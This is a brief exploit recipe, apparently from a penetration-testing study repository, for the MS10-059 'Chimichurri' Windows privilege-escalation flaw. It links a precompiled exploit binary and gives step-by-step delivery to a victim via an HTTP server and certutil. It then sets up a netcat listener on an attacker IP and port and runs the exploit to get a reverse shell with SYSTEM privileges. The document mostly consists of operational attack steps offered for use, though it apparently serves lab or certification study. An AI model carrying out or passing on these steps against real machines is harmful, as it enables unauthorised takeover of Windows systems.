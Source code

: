 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Precompiled payload
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
# Steps to exploit
1. Download file Chimichurri.exe
2. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
3. From victim's machine, get the file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the file
Assumptions: Attack machine: 10.10.16.18 / already run nc -nvlp 5555  
From Victim's machine: Chimichurri.exe 10.10.16.18 5555  
From Attack machine - in the nc screen -> will see connection with system privilege.  

